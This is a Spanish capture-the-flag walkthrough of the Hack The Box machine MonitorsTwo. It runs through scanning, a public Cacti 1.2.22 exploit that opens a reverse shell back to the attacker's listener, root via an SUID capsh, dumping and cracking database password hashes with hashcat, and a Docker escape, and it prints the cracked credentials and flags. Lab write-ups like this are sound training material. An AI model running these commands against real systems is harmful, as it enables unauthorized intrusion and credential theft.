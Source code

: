 ```yaml
---
title: MonitorsTwo HTB
date: 2023-07-12
tier: easy
author: naibu3
---
```


## Reconocimiento

Como siempre comenzamos lanzando [[nmap]], para tratar de buscar puertos abiertos:

```bash
sudo nmap -sS -p- --open --min-rate 5000 -n -Pn 10.10.11.211
```
```nmap
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Ahora buscamos versiones y más información:

```bash
sudo nmap -sCV -p22,80 10.10.11.211
```
```nmap
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Login to Cacti
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Como parece que la explotación irá via web, podemos ir lanzando el script `http-enum` de [[nmap]]:

```bash
sudo nmap --script http-enum -p80 10.10.11.211
```
```nmap
PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|_  /docs/: Potentially interesting folder
```

Si accedemos a la web, veremos una pestaña de login de un servicio llamado **Cacti**, vemos también un número de versión, la **1.2.22**. Con una breve búsqueda en internet vemos que:

> Cacti es una completa solución de gráficos, monitoreo de redes y recopilación de datos que aprovecha el poder de RRDtool. Con la herramienta Cacti puedes sondear servicios a intervalos predeterminados y hacer gráficas con los datos resultantes.

Si buscamos junto a la versión, encontraremos que resulta ser vulnerable, además de un [repositorio](https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22) con un exploit en [[python]].

## Explotación

Si nos ponemos en escucha y lo ejecutamos:

```bash
nc -lvnp 39393
```

```bash
python3 exploit.py -u http://10.10.11.211 --LHOST=10.10.16.53 --LPORT=39393
```

Nos devolverá la conexión y obtendremos una shell:

```bash
bash-5.1$ whoami
whoami
www-data
```

Ahora podremos aplicar un [[Tratamiento de la tty]] para hacer más cómodo el reconocimiento del equipo ([[Reconocimiento del equipo]]). 

## Escalada de privilegios (Docker)

Como hemos visto, estamos bajo el usuario **www-data**, para tratar de listar usuarios podemos echar un vistazo al **/etc/passwd**, sobre el que tenemos permisos de lectura:

```passwd
root:x:0:0:root:/root:/bin/bash
[...]
```

En el que parece que el único usuario válido es **root**. Si ademś intentamos hacer un `echo $HOSTNAME`, nos dirá que es *50bca5e748b0*, lo que apunta a que la aplicación corre sobre un contenedor en [[Docker]]. Además, no está instalado *sudo* ni ningún editor.

Si comprobamos los **permisos SUID**:

```bash
find / -perm -4000 2>/dev/null
```
```find
[...]
/usr/bin/newgrp
/sbin/capsh
/bin/mount
[...]
```

Vemos que extrañamente **/sbin/capsh** tiene permisos SUID, si lo buscamos en [gtfobins](https://gtfobins.github.io/gtfobins/capsh/), vemos que podemos utilizarlo para convertirnos en **root**:

```bash
capsh --gid=0 --uid=0 --
```
```bash
root@50bca5e748b0:/var/www# whoami
root
```

Una vez como root, podemos leer el archivo **entrypoint.sh** de la raíz, donde vemos que se realizan conexiones a una base de datos:

```bash
#!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"
if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
    mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
    mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
    mysql --host=db --user=root --password=root cacti -e "SET GLOBAL time_zone = 'UTC'"
fi

chown www-data:www-data -R /var/www/html
# first arg is `-f` or `--some-option`
if [ "${1#-}" != "$1" ]; then
	set -- apache2-foreground "$@"
fi

exec "$@"
```

Si tratamos de ejecutar la siguiente línea `mysql --host=db --user=root --password=root cacti -e "show tables"`, veremos las tablas de la BD, donde nos llama la atención la tabla **user_auth**. Cambiamos la query para ver su contenido: 

```bash
mysql --host=db --user=root --password=root cacti -e "SELECT username,password FROM user_auth"
```
```user_auth
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| admin    | $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC |
| guest    | 43e9a4ab75570f5b                                             |
| marcus   | $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C |
+----------+--------------------------------------------------------------+
```

Ahora tenemos varias contraseñas hasheadas. Pero podemos romper la del usuario **marcus** con [[hashcat]]:

```bash
hashcat -m 3200 hashes.txt /usr/share/wordlists/rockyou.txt
```
```hashcat
[...]
$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C:funkymonkey
[...]
```

Y ya tenemos credenciales para acceder por [[22-ssh]] (`marcus:funkymonkey`). Ya tenemos la **flag de usuario** (`a72d202358018ed22b191030c3109366`).

## Escalada de privilegios

Una vez dentrode la máquina no encontramos nada sospechoso, salvo porque la versión de [[docker]] es antigua. Tras una búsqueda por internet, descubrimos que es vulnerable y nos permite escalar privilegios, además encontramos un exploit en el siguiente [repo](https://github.com/UncleJ4ck/CVE-2021-41091).

Seguimos las instrucciones, asignando privilegios a la bash del contenedor del que escapamos antes, y ejecutamos el script, introducimos *yes*, y ya somos **root**. 

Ya has resuleto la máquina (`a27ca576dbee82997c0c0bfaf769249b`)!